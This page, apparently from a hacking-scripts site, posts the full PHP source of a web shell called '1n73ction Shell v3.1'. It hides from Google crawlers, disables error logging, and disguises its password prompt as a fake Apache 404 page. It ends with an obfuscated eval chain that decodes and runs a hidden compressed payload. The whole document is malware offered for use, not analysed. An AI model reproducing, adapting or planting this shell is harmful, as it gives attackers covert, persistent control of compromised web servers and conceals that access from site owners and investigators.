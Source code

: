 ```yaml
---
id: 234
title: 1n73ction Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=234
permalink: /1n73ction-shell/
categories:
  - PHP
tags:
  - 1n73ction
  - PHP
---
```

1n73ction Shell v3.1 by x&#8217;1n73ct

## 1n73ction Shell v3.1 Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
/* (1n73ction shell v3.1 by x'1n73ct|default pass:" 1n73ction ") */ 
$auth_pass = "b75d0fe83fb0e1631a47868c279c1c56"; 
$color = "#00ff00"; 
$default_action = 'FilesMan'; 
@define('SELF_PATH', __FILE__); 
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) { 
    header('HTTP/1.0 404 Not Found'); 
    exit; 
} 
@session_start(); 
@error_reporting(0); 
@ini_set('error_log',NULL); 
@ini_set('log_errors',0); 
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
@set_time_limit(0); 
@set_magic_quotes_runtime(0); 
@define('VERSION', '2.1'); 
if( get_magic_quotes_gpc() ) { 
    function stripslashes_array($array) { 
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array); 
    } 
    $_POST = stripslashes_array($_POST); 
} 
function printLogin() { 
    ?&gt; 
&lt;h1&gt;Not Found&lt;/h1&gt; 
&lt;p&gt;The requested URL was not found on this server.&lt;/p&gt; 
&lt;hr&gt; 
&lt;address&gt;Apache Server at &lt;?=$_SERVER['HTTP_HOST']?&gt; Port 80&lt;/address&gt; 
    &lt;style&gt; 
        input { margin:0;background-color:#fff;border:1px solid #fff; } 
    &lt;/style&gt; 
    &lt;center&gt; 
    &lt;form method=post&gt; 
    &lt;input type=password name=pass&gt; 
    &lt;/form&gt;&lt;/center&gt; 
    &lt;?php 
    exit; 
} 
if( !isset( $_SESSION[md5($_SERVER['HTTP_HOST'])] )) 
    if( empty( $auth_pass ) || 
        ( isset( $_POST['pass'] ) && ( md5($_POST['pass']) == $auth_pass ) ) ) 
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true; 
    else 
        printLogin();
		@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
function x($inject){eval("\$z=gz" . "inf" . "la" . "te(s" . "t" . "r_r" . "ot" . "13(ba" . "se" . "6" . "4" . "_" . "d" . "e" . "c" . "o" . "de(st" . "r" . "_" . "r" . "o" . "t" . "13(" . "gzi" . "nf" . "lat" . "e(" . "bas" . "e6" . "4_d" . "ec" . "ode(\$inject))))));eval(\$z);");}
x("DczdFkIwAADgB3Kx4+f4uehiJyJFM0bcjYPKqGbFPH19D/Adch2iLn+Qan8XlupmvkrlMEVX3NtyDS2gc9nTGF4X0yHDKSAFnPHHOkwhFNw5v0XIqMdyAylyc5r0ReRkzlhmX8y5Fizfz5rpiQsaz7jdWXZDUbJdcN2KqfRPLWnrJ6t88P9SpB5TNIws6KCxxSXvo3EugK2kQKNA2M66mLG72/0A");
?&gt;
</pre>